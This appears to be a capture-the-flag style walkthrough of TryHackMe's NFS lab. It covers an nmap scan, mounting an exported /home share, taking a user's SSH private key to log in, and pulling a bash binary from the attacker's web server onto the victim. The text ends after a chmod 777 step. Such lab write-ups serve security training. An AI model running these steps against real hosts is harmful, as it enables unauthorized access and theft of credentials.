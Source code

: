 ### Basic Details 
Victim :**10.10.71.159**
Attacker : **10.9.18.195**
Room: [Network Services 2](https://tryhackme.com/room/networkservices2) 

**NFS-Common**

It is important to have this package installed on any machine that uses NFS, either as client or server. It includes programs such as: **l****ockd, statd**, **showmount**, **nfsstat,** **gssd**, **idmapd** and **mount.nfs**. Primarily, we are concerned with "showmount" and "mount.nfs" as these are going to be most useful to us when it comes to extracting information from the NFS share. If you'd like more information about this package, feel free to read: [https://packages.ubuntu.com/jammy/nfs-common](https://packages.ubuntu.com/jammy/nfs-common).

You can install **nfs-common** using "_sudo apt install nfs-common_", it is part of the default repositories for most Linux distributions such as the Kali Remote Machine or AttackBox that is provided to TryHackMe.

1. Scan the NMap to scan for the open ports:

```shell
nmap -A -p-  -T3 -sX -oN scan1 10.10.71.159

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-26 08:58 EST
Nmap scan report for 10.10.71.159
Host is up (0.0089s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 73:92:8e:04:de:40:fb:9c:90:f9:cf:42:70:c8:45:a7 (RSA)
|   256 6d:63:d6:b8:0a:67:fd:86:f1:22:30:2b:2d:27:1e:ff (ECDSA)
|_  256 bd:08:97:79:63:0f:80:7c:7f:e8:50:dc:59:cf:39:5e (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      43265/tcp   mountd
|   100005  1,2,3      47408/udp   mountd
|   100005  1,2,3      49247/tcp6  mountd
|   100005  1,2,3      59332/udp6  mountd
|   100021  1,3,4      34009/udp   nlockmgr
|   100021  1,3,4      34895/tcp   nlockmgr
|   100021  1,3,4      35949/tcp6  nlockmgr
|   100021  1,3,4      42979/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34895/tcp open  nlockmgr 1-4 (RPC #100021)
43265/tcp open  mountd   1-3 (RPC #100005)
48509/tcp open  mountd   1-3 (RPC #100005)
53135/tcp open  mountd   1-3 (RPC #100005)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/26%OT=22%CT=1%CU=43079%PV=Y%DS=2%DC=T%G=Y%TM=63821B
OS:B1%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST
OS:11NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   11.13 ms 10.9.0.1
2   11.80 ms 10.10.71.159

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.18 seconds
```
- Found 7 open ports 
```shell
22/tcp    open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp   open  rpcbind  2-4 (RPC #100000)
2049/tcp  open  nfs_acl  3 (RPC #100227)
34895/tcp open  nlockmgr 1-4 (RPC #100021)
43265/tcp open  mountd   1-3 (RPC #100005)
48509/tcp open  mountd   1-3 (RPC #100005)
53135/tcp open  mountd   1-3 (RPC #100005)
```
Will need to target: 
```shell
2049/tcp  open  nfs_acl  3 (RPC #100227)
```

2. found the list of sharemounts using the following:
```shell
usr/sbin/showmount -e 10.10.71.159

Export list for 10.10.71.159:
/home *

```
 3. created the folder on the attack machine that will mount the share to 
 ```shell
 mkdir /tmp/mount
```
4. changed the share in the command inorder to mount the drive 
```shell
sudo mount -t nfs 10.10.71.159:home /tmp/mount -nolock
```
5. Went into the /tmp/mount and found folder cappucino, DONT restart system otherwise the share will disappear.
```shell
ls /tmp/mount 

cappucino
```

6. Copied the the files to a folder on the local machine and found id_rsa file that can be used to access ssh. CHmod the file in order to use it 
```shell
chmod 600 id_rsa
```

7. SSHed in the victim machine using cappucino 
```shell
ssh -i id_rsa cappucino@10.10.71.159
```
8. Copied bash over to the file share by setting up a server on 8000 on the attack machine and get the victim to dowload the bash script
```shell
#Attack machine 
python3 -m http.server 8000

#Victim downloads bash from the server 
wget ip:8000/bash
```

9. changed permissions to bash to 777
```shell
chmod 777 bash 
```